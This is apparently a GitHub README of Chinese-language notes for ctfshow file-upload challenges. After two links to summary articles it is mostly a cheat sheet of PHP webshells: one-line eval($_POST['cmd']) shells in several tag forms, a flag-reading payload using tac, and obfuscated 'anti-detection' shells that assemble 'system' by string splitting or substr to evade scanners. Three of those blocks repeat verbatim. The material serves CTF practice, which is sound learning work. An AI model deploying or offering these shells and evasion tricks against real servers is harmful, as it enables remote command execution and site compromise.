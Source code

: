 # ctfshow_file_upload


ctfshow文件上传专题



## 总结：

[CTF中文件上传及文件包含总结](https://www.ngui.cc/el/3197856.html?action=onClick)

[CTF文件上传漏洞总结](http://cn-sec.com/archives/1116089.html)

文件上传马儿总结：

```php
短标签马儿：
	一般的马儿：
<?php eval（$_POST['cmd']);?>
	没有PHP的马儿
<?= eval（$_POST['cmd']);?>
<? eval（$_POST['cmd']);?>
<% eval（$_POST['cmd']);%>
	有PHP的马儿
<script language="php"></script>

特殊马儿：
	过滤[]：用{}代替
	<?= eval（$_POST['cmd']);?>

直接拿flag的变形马儿
	<? echo `tac /var/www/html/f*`;?>
	<? echo `tac /var/www/html/f*`?>
	
免杀马儿：
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>

    
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>

    
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>

    
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
```
